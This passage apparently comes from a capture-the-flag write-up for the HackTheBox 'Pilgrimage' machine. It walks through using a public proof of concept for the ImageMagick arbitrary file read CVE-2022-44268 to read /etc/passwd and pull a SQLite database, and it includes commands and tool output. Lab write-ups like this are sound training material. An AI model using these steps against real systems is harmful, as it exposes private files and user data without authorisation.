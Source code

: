 Can pull the version:
```shell
┌──(kali㉿kali)-[~/…/HTB-Machines/pilgrimage/findings/git]
└─$ ./magick -usage
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
```

The magick version is vulnerable to a **Arbitrary File Read**
<img src="/assets/img/220231016-pilgrimage-3.png" alt="Image of searchsploit" class="auto-resize">


## Initial access

## Arbitrary File Read
Used https://github.com/voidz0r/CVE-2022-44268 PoC.

Read `/etc/passwd` file and found user `emily`
<img src="/assets/img/20231016-pilgrimage-4.png" alt="Image found user" class="auto-resize">


## Local File Inclusion
The **dashboard.php** makes queries to a SQLite database at `/var/db/pilgrimage`

Downloaded DB using the LFI vulnerability

```shell
┌──(kali㉿kali)-[~/…/HTB-Machines/pilgrimage/exploits/CVE-2022-44268]
└─$ cargo run "/var/db/pilgrimage"
    Finished dev [unoptimized + debuginfo] target(s) in 0.02s
     Running `target/debug/cve-2022-44268 /var/db/pilgrimage`

```

Upload image.png and download converted file, and grab hex response:
```shell
┌──(kali㉿kali)-[~/…/HTB-Machines/pilgrimage/exploits/CVE-2022-44268]
└─$ identify -verbose 652ca0d768621.png
Image: 652ca0d768621.png
  Format: PNG (Portable Network Graphics)
  Geometry: 100x100
  Class: PseudoClass
  Type: palette
  Depth: 1 bits-per-pixel component
  Channel Depths:
    Red:      1 bits
    Green:    1 bits
    Blue:     1 bits
  Channel Statistics:
    Red:
      Minimum:                 65535.00 (1.0000)
      Maximum:                 65535.00 (1.0000)
      Mean:                    65535.00 (1.0000)
```